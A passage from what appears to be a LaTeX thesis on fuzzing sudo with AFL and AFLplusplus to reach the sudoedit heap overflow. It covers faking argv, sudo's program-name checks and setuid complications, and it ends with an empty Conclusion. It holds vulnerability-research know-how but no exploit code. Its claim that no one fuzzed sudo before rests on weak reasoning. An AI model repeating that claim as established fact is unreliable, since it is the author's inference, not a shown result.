This function reads our fake argv from an input file, then, overwrites the real argv with our fake argv. Now we can fuzz the sudo and argv, however, it would not work. The header file that is used to fuzz argv has a buffer overflow, so, if we try to fuzz the sudo, we got a crash inside the AFL. There is another fork of AFL which name is AFLplusplus, this implementation has non of mentioned bugs.

The path of the vulnerability of the sudo was through the sudoedit. The sudoedit is a symlink to actual sudo. As we now argv[0] hold the filename executable, so, when we execute the sudoedit, the first argument must be sudoedit itself. This is really important because the sudo has a check on the file name. The problems do not finish yet, sudo doesn't get the file name from argv[0] only, it uses getprogname if available. We have to remove this part from the sudo source code.

Linux provides two different userId: the userId, the effective userId. A program like the Sudo uses setUid to set userId. If we execute a program with sudo, the program gets our normal userId like 1000 also gets effective userId as 0 because we need to execute it as the root user. If we fuzz the sudo with AFL in order to interact with setUid in the sudo, our fuzzer need to execute as root which runs sudo. In such a situation sudo might show different behavior because it's already root.

After overcoming all of the mentioned problems, we can fuzz the sudo and found the problem. All of the mentioned problems were difficult to solve, so, we can mention no one did it before. That's the reason sudo overflow is hidden for almost a decade. The research team that found the vulnerability actually uses the code review to find the vulnerability.

\chapter{Conclusion}

% \bibliographystyle{alphaurl}
% \bibliography{bib}

\end{document}
